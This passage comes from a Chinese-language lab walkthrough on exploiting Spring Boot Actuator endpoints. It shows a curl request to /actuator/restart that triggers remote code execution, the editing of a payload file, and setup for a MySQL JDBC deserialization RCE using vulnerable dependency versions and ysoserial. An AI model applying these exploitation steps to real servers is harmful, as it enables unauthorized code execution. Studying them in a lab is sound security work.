 成功设置.

**(2) 触发RCE**

```
curl -H "content-Type:  application/json" -X POST http://localhost:9096/actuator/restart
```

过程出现了如下错误，执行完一次，需要新创建个其他函数，或者先删除掉。:

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210620111948-5e4eaaf0-d176-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210620111948-5e4eaaf0-d176-1.png)

```
sed -i "" s/T5/T6/g /tmp/cmd.json
```

同时要注意，命令执行linux和window的区别。如图所示，可以成功RCE

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210620112006-695fb0a6-d176-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210620112006-695fb0a6-d176-1.png)

* * *

#### **4.mysql jdbc deserialization RCE**

```
cd springboot-mysql-jdbc-rce
mvn spring-boot:run
```

运行之前,需要配置一下数据库连接，要不然运行会失败的，这里我启用了我本地的mysql。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210620112019-70ffb00e-d176-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210620112019-70ffb00e-d176-1.png)

查看下pom.xml的mysql-connector-java的依赖为8.0.12,cc依赖为3.2.1:

<dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>8.0.12</version>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
            <scope>runtime</scope>
        </dependency>

先访问:[http://localhost:9097/actuator/env](http://localhost:9097/actuator/env)

记录好原先的`spring.datasource.url`:

```
[application.properties]:6:43"},"spring.datasource.url":{"value":"jdbc:mysql://127.0.0.1:3306/test","origin":"class path resource
```

利用ysoserial生成反序列化payload:
